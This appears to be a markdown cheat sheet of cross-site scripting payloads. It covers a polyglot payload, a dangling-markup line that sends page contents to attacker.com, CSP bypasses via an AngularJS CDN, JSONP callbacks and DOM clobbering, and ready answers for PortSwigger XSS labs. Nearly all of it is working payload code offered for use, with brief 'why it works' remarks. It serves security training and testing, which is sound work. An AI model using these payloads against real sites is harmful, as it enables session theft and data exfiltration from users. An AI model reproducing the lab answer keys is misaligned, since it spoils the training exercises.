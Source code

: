 ## Security Researcher's Secret Weapons

### Ultimate Polyglot Payload
```javascript
javascript:"/*\"/*`/*' /*</template></textarea></noscript></style></title></script>--></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(document.domain)//'>
```
*Why it works: Designed to break out of nearly any context by covering multiple enclosure types.*

### Dangling Markup Exfiltration
```html
<img src='https://attacker.com/?
```
*Why it works: Forces browser to send everything until next quote to attacker server - brilliant for bypassing CSP.*

### CSP Bypass Collection
```javascript
// Using allowed sources
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.min.js"></script>
<div ng-app>{{constructor.constructor('alert(document.domain)')()}}</div>

// Using JSONP endpoints
<script src="https://allowed-domain.com/jsonp?callback=alert(document.domain)"></script>

// Using DOM clobbering
<form id="location"><input name="href" value="javascript:alert(document.domain)"></form>
<a id="link" href="javascript:alert(document.domain)">Click me</a>
```
*Pro tip: Always check CSP policy for weaknesses like allowing unsafe-inline, eval, or script-src from CDNs.*

## PortSwigger Lab Master Keys

### Quick Lab Solvers

For "Reflected XSS into HTML context with most tags and attributes blocked":
```javascript
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img src=1 onerror=alert(document.domain)&gt;">
```

For "Reflected XSS with event handlers and href attributes blocked":
```javascript
<svg><a><animate attributeName=href values=javascript:alert(document.domain) /><text x=20 y=20>Click me</text></a>
```

For "Reflected XSS with some SVG markup allowed":
```javascript
<svg><animatetransform onbegin=alert(document.domain) attributeName=transform>
```
